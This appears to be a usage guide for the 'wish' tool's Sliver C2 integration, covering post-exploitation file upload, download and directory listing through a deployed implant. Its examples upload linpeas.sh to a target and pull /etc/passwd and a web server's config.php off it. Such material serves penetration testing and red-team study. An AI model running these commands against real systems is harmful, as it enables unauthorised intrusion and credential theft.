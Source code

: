 # Sliver C2 Advanced Features Usage Guide

## Overview

This guide explains how to use the advanced features (Phase 3) of wish's Sliver C2 integration. These features make post-exploitation work more efficient.

## Prerequisites

1. Sliver C2 server is running
2. Sliver implant is deployed on target machine
3. wish can connect to Sliver C2
4. Appropriate configuration file exists (`~/.sliver-client/configs/wish.cfg`)

## Features

### 1. File Operations

#### File Upload
```bash
# Basic usage
/sliver upload <session_id> <local_file> <remote_path>

# Example: Upload tool to target
/sliver upload FANCY_TIGER /tmp/linpeas.sh /tmp/linpeas.sh

# Upload with progress display (automatic)
/sliver upload FANCY_TIGER /home/user/large_file.zip /tmp/data.zip
```

#### File Download
```bash
# Basic usage
/sliver download <session_id> <remote_file> <local_path>

# Example: Get configuration file
/sliver download FANCY_TIGER /etc/passwd ./passwd.txt

# Example: Get database file
/sliver download FANCY_TIGER /var/www/html/config.php ./config.php
```

#### Directory Listing
```bash
# Basic usage
/sliver ls <session_id> <path>

# Example: Check root directory
/sliver ls FANCY_TIGER /

# Example: User's home directory
/sliver ls FANCY_TIGER /home/user
```
